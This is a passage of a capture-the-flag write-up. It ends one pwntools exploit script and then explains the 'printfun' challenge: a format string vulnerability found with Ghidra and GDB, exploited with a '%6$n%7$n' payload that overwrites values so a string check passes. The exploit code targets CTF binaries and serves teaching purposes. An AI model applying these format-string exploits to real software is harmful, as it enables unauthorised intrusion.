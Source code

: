```python
payload += p64(addr)

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

---

## printfun - 500 pts

Here, on analysing with Ghidra, we find that there is a format string vulnerability.

![](/images/tuctf_images/printfun_1.png)

So, here first we use GDB to get the addresses of the two buffers being compared. Also, as input if we provide `"%x %x %x %x %x %x %x %x %x %x %x %x %x %x"`, for the instance running on GDB we get this output -

`5655a050 3c 14 1 ffffc994 5655a050 5655a008 ffffc900 0 0 f7e06637 f7fa0000 f7fa0000 0`

On seeing the values displayed by GDB, we see two addresses - `0x5655a008` and `0x5655a050`

![](/images/tuctf_images/printfun_2.png)

This is intereting as both these addresses are also present in the program's output with our input.

So, all we have to do is overwrite the 6th and 7th "addresses" of the output to the same value so that the string comparison passes.

We write the following exploit code, which works locally. I hope it would work remotely as well (but no way to test it now :frowning_face:) -

```python
from pwn import *

p = process("printfun")

payload = "AAAA%6$n%7$n"

p.sendlineafter('? ', payload)

p.interactive()
```

---

# Rev Challenges

## faker - 400 pts
